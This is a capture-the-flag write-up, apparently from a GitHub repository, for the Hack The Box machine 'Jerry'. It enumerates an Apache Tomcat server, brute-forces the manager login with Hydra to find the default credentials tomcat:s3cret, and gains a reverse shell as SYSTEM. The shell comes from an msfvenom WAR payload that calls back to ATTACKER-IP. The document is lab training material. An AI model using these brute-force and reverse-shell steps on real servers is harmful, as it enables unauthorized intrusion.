

# Jerry

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Apache Tomcat, Default Credentials, Brute Force, Hydra HTTP Get Method, Malicious War File, Remote Code Execution - |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Scan

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.95 -oN AllPorts
```

Result:

```bash
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
```

TCP/Version Scan

```bash
nmap -p 8080 -sCV -Pn -n 10.10.10.95 -oN FullScan
```

Result:

```bash
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

### HTTP Scripts Scan

```bash
nmap -p 8080 --script http-enum* -Pn -n 10.10.10.95 -oN HTTPNmapScan
```

Result: 

```bash
PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
```

Nikto (It gives you the password for Apache Tomcat directly)

```bash
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2023-01-11 22:56:57 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
```

> Despite the fact that Nikto already provided us the user and password to access the Tomcat Admin Panel, we will continue to brute force the portal manually.
> 

# Initial Access

After the initial enumeration, we will find the Tomcat service running on port 8080:

```bash
[http://10.10.10.95:8080](http://10.10.10.95:8080/)
```



In the dashboard, we will have 3 main options, which are:

- Server Status
- Manager App
- Host Manager

Each one of them requires authentication as shown below:


By default, Tomcat uses `tomcat:tomcat` as credentials, however, after trying those credentials we did not have any success. 

For the next stage, there 2 possible ways to get the valid credentials, both using brute force: 

### First Way - Brute Force using Hydra:

First, let’s try to find out a good wordlist that can potentially contain the password required.

Simple execute a search with the word `tomcat` and return only the `txt` files from `/usr/share`

See command below: 

```bash
find /usr/share/* -name "*tomcat*.txt" 2>/dev/null
```

From the results we can see the following wordlists:

```bash
/usr/share/dirb/wordlists/vulns/tomcat.txt
/usr/share/exploitdb-papers/papers/english/12878-hardening-&-messing-with-win32-apache-tomcat.txt
/usr/share/legion/wordlists/tomcat-betterdefaultpasslist.txt
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
/usr/share/seclists/Discovery/Web-Content/tomcat.txt
/usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt
/usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
/usr/share/wfuzz/wordlist/vulns/tomcat.txt

```

Let’s use the one that is related to passwords only `tomcat_mgr_default_pass.txt`

Now, let’s use hydra by specifying the wordlist: 

```bash
hydra -l tomcat -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -f 10.10.10.95 -s 8080 http-get /manager/html -t 50
```

Arguments (explanation):

```bash
-s --> to specify the port which is 8080 (use this argument for non-default ports)
-l --> to specify the user for the attack (hardcoded)
-P --> to pass a wordlist file
http-get      --> specify that this is a HTTP Get Request 
/manager/html --> This is the file or path that contains the login portal (final target)
-t --> to specify the number of threads (increment up to 64 for faster attacks). 
```

After executing the Brute Force attack we will see the correct password which is `s3cret`:


Let’s try to log in using the credentials:

```bash
user: tomcat
pass: s3cret
```

Bingo!! Access granted:


---

### Second Way - Brute Force using Tomcat-Brute.py:

We can Brute Force the Apache Tomcat using the tool known as tomcat-brute.py. 

Download the tool from the following Github Repo: 

[security-tools/apache-tomcat-login-bruteforce.py at master · bl4de/security-tools](https://github.com/bl4de/security-tools/blob/master/apache-tomcat-login-bruteforce.py)

How to use it: 

```bash
python3 apache-tomcat-login-bruteforce.py --help

usage: apache-tomcat-login-bruteforce.py [-h] [-H HOST] [-P {http,https}] [-m MANAGER] [-p PORT]

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Apache Tomcat hostname
  -P {http,https}, --proto {http,https}
                        Protocol: http or https
  -m MANAGER, --manager MANAGER
                        Path to Host Manager (default: /manager/html)
  -p PORT, --port PORT  port (default - 8080)
```

Let’s put all the require arguments and execute the script:

```bash
python3 apache-tomcat-login-bruteforce.py -H 10.10.10.95 -P http -p 8080 -m /manager/html
```

Result: We will see the user and password. 


---

Since we have access to the management system, we can use the deployment option and deploy a malicious WAR file that contains a reverse shell. 

For this task, first create the malicious war file using msfvenom: 

```bash
msfvenom -p java/shell_reverse_tcp LHOST=ATTACKER-IP LPORT=443 -f war -o evil.war
```

Result:


Next, go to WAR file to deploy, upload the file and deploy it.


Onced the file is deployed, we will see a new path in the list of Applications identified as `/evil`


Finally, have the listener ready, then just click on the `/evil` path from the general dashboard and wait for the shell.

Sucess!!  We should receive the reverse shell


# Privilege Escalation

After the initial access we will get access as `NT AUTHORITY/SYSTEM`. No PrivEsc is needed


[Owned Jerry from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/144)